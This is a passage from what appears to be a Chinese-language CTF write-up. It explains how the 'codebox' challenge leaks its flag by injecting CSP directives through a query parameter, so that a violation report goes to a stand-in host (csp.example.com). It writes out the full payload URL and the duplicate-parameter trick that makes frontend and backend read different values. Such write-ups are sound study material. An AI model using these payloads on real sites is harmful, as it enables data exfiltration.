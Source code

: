 ![](https://imgur.com/JdXw6kj.png)

前端设置flag的代码如下:

```html
<script>
    const code = new URL(window.location.href).searchParams.get('code');
    if (code) {
        const frame = document.createElement('iframe');
        frame.srcdoc = code;
        frame.sandbox = '';
        frame.width = '100%';
        document.getElementById('content').appendChild(frame);
        document.getElementById('code').value = code; 
    }

    const flag = localStorage.getItem('flag') ?? "flag{test_flag}";
    document.getElementById('flag').innerHTML = `<h1>${flag}</h1>`;
</script>
```

flag是通过innerHTML直接写入到DOM里，如果在CSP header里指定` require-trusted-types-for 'script'` ，这个 innerHTML 的赋值就会因为字符串没有经过 Trusted-Types 处理而违反CSP规则。

违反CSP规则可以通过 report-uri 或者 report-to 来上报给指定的地址，上报的内容会包含一小部分错误详情。

构造如下 payload 并访问：

```
https://codebox.mc.ax/?code=<img+src="111%3brequire-trusted-types-for+'script'%3breport-uri+http://csp.example.com%3b">
```

![](https://imgur.com/BPsIPrg.png)

可以发现确实违反了 require-trusted-types-for 并且触发了 report-uri 将错误发送给了 example.com，但错误发生在 if (code) 里面的设置 iframe srcdoc 这里，这导致后面设置flag的代码并没有被执行到。怎样能不在 iframe srcdoc这里违反 CSP 呢，答案是不进入 if(code) 里面这段代码，看看code来源：

```
const code = new URL(window.location.href).searchParams.get('code');
```

前端的 `code` 是通过浏览器的 URL 类 searchParams.get() 获取的，这个方法在存在多个相同参数的情况下取第一个。而后端取 `req.query.code` 的时候，express.js 取的是最后一个。
所以可以构造 `?code=&code=<real_payload>` 来让前后端各取所需，在前端绕过 if(code) 这个分支的同时，在后端也能注入 CSP 响应头，最终让设置flag的innerHTML违反CSP触发错误，获取 flag：

![](https://imgur.com/UVCXHw3.png)

### Unfinished:

代码很简单，只有两个路由:

```javascript
app.post("/api/login", async (req, res) => { //...
app.post("/api/ping", requiresLogin, (req, res) => { // ..
```
